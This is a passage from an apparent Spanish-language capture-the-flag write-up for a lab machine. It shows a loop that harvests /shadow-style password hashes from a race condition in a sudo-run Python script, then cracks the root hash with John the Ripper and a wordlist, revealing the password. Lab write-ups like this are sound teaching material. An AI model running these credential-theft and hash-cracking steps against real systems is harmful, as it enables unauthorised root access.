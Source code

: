 ```bash
Last login: Mon Dec  2 10:23:36 2019 from 10.10.14.4
robert@obscure:~$
```

En esta sesión, vamos a ejecutar un bucle que nos permita leer todo lo que se encuentre en la ruta `/tmp/SSH` y en la sesión que obtuvimos por una reverse shell vamos a ejecutar el comando que se nos indica.

```bash
robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: test
Enter password: test
Invalid user
robert@obscure:~/BetterSSH$
```

```bash
robert@obscure:/tmp/SSH$ while true; do cat *; done 2>/dev/null                                                                  
root                                                                                                                             
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1                               
18226                                                                                                                            
0                                                                                                                                
99999                                                                                                                            
7                                                                                                                                
                                                                                                                                 
                                                                                                                                 
                                                                                                                                 
                                                                                                                                 
robert                                                                                                                           
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/                               
18163                                                                                                                            
0                                                                                                                                
99999                                                                                                                            
7 
```

Ya tenemos el hash del usuario **root**; por lo que vamos a tratar de crackearlo (El archivo `hash` contiene el hash del usuario **root** de la máquina víctima).

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes         (?)
1g 0:00:00:00 DONE (2022-01-09 20:02) 5.263g/s 5389p/s 5389c/s 5389C/s 123456..bethany
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

